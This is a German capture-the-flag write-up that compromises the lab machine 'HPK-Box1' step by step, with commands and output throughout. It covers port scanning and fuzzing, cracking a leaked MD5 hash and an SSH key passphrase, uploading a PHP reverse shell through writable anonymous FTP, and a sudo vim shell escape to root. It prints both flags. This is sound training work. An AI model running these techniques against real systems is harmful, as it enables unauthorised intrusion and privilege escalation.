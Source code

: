 | Platform   | HPK-Box1 |
| ---------- | -------- |
| Difficulty | TBA      |
| Start Date | 22.12.24 |
| Total Time | 32:04    |
| Keywords   | B2R      |

# Reconnaissance
Im ersten Schritt habe ich die IP-Adresse zu /etc/hosts hinzugefügt, damit ich diese nicht jedes mal eintippen muss.
### Scans
#### Basic Nmap Scan
Um zu schauen welche Services auf dem Target laufen, führen wir einen Nmap TCP-SYN Scan von allen Ports durch.
```
$ nmap -p- -vvv -T4 -Pn -sS -oN tcp_all hpkbox1
...
PORT      STATE SERVICE  REASON
22/tcp    open  ssh      syn-ack ttl 64
80/tcp    open  http     syn-ack ttl 64
33333/tcp open  dgi-serv syn-ack ttl 64
...
```
3 offene TCP-Ports: 
*  22 (wahrscheinlich ssh)
*  80 (wahrscheinlich http)
*  33333
#### Specific Nmap Scan
Um mehr Informationen über diese Ports zu bekommen, machen wir einen Nmap TCP-SYN scan mit Default Scripts und Banner Grabbing.
```
$ nmap -p20,80,33333 -vvv -T4 -Pn -sSCV -oN tcp_more hpkbox1
...
33333/tcp open   ftp      syn-ack ttl 64 vsftpd 3.0.5
...
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 ftp      ftp          4096 Nov 29  2023 ftp_uploads [NSE: writeable]
...
```
Port 22 und 80 sind wie angenommen SSH und HTTP. Der ungewöhnliche Port 33333 ist ein FTP Server mit Anonymous Login enabled.
 
#### Fuzz HTTP
Um nicht verlinkte Directories und Files auf dem HTTP Server zu finden, fuzzen wir nun mit einer kleinen Wordlist mit gewöhnlichen Verzeichnisnamen.
```
$ ffuf -u http://hpkbox1/FUZZ -w common.txt -c
...
login1                  [Status: 401, Size: 454, Words: 42, Lines: 15, Duration: 0ms]
...
```
Unter http://hpkbox1/login1 finden wir eine HTTP Login Form.
![alt text](screenshots/screenshot2.png "login1")
### Enumeration
Schauen wir uns zunächst den Source Code der Startseite an.
```
§ view-source:http://hpkbox1/
...
<!-- Hey zeri, since you seem to forget your password to our secret page all the time, i decided (against my better judgement) to leave a MD5 hash of it here: 775db752f52c97925e791f5e2a9ea3ad -->
$ echo "775db752f52c97925e791f5e2a9ea3ad" > zerihash
```
Wir finden einen Username und einen Hash. Während wir weitersuchen kann im Hintergrund der Hash gecracked werden. Dafür verwenden wir "John the Ripper" mit der rockyou.txt.
```
$ john -w=rockyou.txt --format=raw-md5 zerihash
...
12beme2008
...
```
Unser Nmap Scan hat verraten, dass sich via Anonymous Login mit dem FTP Server verbunden werden kann.
```
$ ftp Anonymous@hpkbox1 -p 33333
$ ls -la
-rw-r--r--    1 ftp      ftp            99 Nov 08  2023 .htaccess
drwxrwxrwx    2 ftp      ftp          4096 Nov 29  2023 ftp_uploads
$ ls -la ftp_uploads
$ get .htaccess
$ cat .htaccess
AuthType Basic
AuthName "Restricted Access"
AuthUserFile /etc/apache2/.htpasswd
Require valid-user

=> a upload folder (LFI?)
=> dont know what htaccess does, but normally we dont have access to that
```
Auf dem FTP server befindet sich eine .htaccess Datei. Damit kann ich nichts anfangen doch diese sollte normalerweise nicht einsehbar sein. Außerdem ist ein Directory "ftp_uploads" sichtbar. Vielleicht ist eine LFI möglich. Probieren wir dafür den Login auf dem HTTP Server mit unseren gefunden Credentials aus.
```
§ http://hpkbox1/login1/
Username: zeri
Password: 12beme2008
...
ftp_uploads
...
```
Nach erfolgreichem Login ist wieder "ftp_uploads" sichtbar.
![alt text](screenshots/screenshot3.png "ftp_uploads")
### Interesting Finds
* ftp_uploads
	* writeable via FTP
	* executable via HTTP
* user: zeri
* hash: 775db752f52c97925e791f5e2a9ea3ad (12beme2008)
# Exploitation
Als nächstes generieren wir eine ReverseShell mit revshells.com. Diese wird dann via FTP in das "ftp_uploads" Verzeichnis hochgeladen. Dann öffnen wir mit NetCat einen Listener und führen mit HTTP die ReverseShell aus.
```
$ nano ape.php
$ ftp Anonymous@hpk-box1 -p 33333
ftp> cd ftp_uploads
ftp> put ape.php
$ nc -lnvp 9001
§ http://hpkbox1/login1/ftp_uploads/ape.php 
www-data@hpk-box1:/$
```
Wir haben nun einen Initial Foothold. Als nächstes stabilisieren wir die ReverseShell um ein vollständiges TTY zu haben.
```
$ which python
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
$ stty raw -echo;fg
www-data@hpk-box1:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Privilege Escalation
Schauen wir zunächst in das "home" Verzeichnis
```
$ cd /home; ls
zeri
$ cd zeri; ls -la
-rwxr-xr-x 1 zeri zeri  220 Jan  6  2022 .bash_logout
-rwxr-xr-x 1 zeri zeri 3771 Jan  6  2022 .bashrc
-rwxr-xr-x 1 zeri zeri  807 Jan  6  2022 .profile
drwxr-xr-x 2 zeri zeri 4096 Nov 29  2023 .ssh
-rwxr-xr-x 1 zeri zeri   38 Nov  8  2023 user.txt
$ cat user.txt
HPK{4752aabac6ca5640350010dec30769e7}
```
Es gibt ein Unterverzeichnis für den User "zeri". Dort finden wir die user.txt und ein .ssh Verzeichnis.
```
$ cd .ssh; ls -la ...
-rwxr-xr-x 1 root root 567 Nov 29 2023 authorized_keys 
-rwxr-xr-x 1 zeri zeri 2655 Nov 29 2023 id_rsa
-rwxr-xr-x 1 zeri zeri 567 Nov 29 2023 id_rsa.pub
```
Der Private Key ist readable. Das sollte nicht sein. Im Hintergrund kann nun der Hash mit "John the Ripper" gecracked werden. Zunächst wird der Hash auf den Localhost kopiert, mit "ssh2john" in ein für John verständliches Format gebracht und dann mit der rockyou.txt ausgeführt.
```
$ cat id_rsa
localhost$ echo "..." > zeri_rsa
localhost$ ssh2john zeri_rsa > zeri_rsa.john
localhost$ john -w=rockyou.txt zeri_rsa.john
...
ILOVEYOU
...
```
Mit dem neuen Password können wir uns nun über SSH einloggen. Wichtig ist die Privileges auf dem Private Key anzupassen.
```
localhost$ chmod 600 zeri_rsa
localhost$ ssh zeri@hpkbox1 -i zeri_rsa
zeri@hpk-box1:~$ 
```
***
Die erste Vertical Privilege Escalation ist erfolgreich. Da wir nun ein Password haben überprüfen wir zunächst die sudo Konfiguration.
```
$ sudo -l
...
User zeri may run the following commands on hpk-box1:
    (ALL) NOPASSWD: /usr/bin/vim
```
Wir können vim mit Root Privileges ausführen. Das ist ein eindeutiger Attack Vector. Den genauen Exploit finden wir auf gtfobins.github.io
```
$ sudo vim -c ':!/bin/sh'
\# whoami
root
\# cat /root/root.txt
HPK{8ac3e605a7560dd62a1480cd983d28b2}
```
Der Privilege Escalation ist erfolreich und wir haben Root Privileges. Jetzt könne wir die root.txt einsehen und sind ferig.
# Learnings
always brute force :D
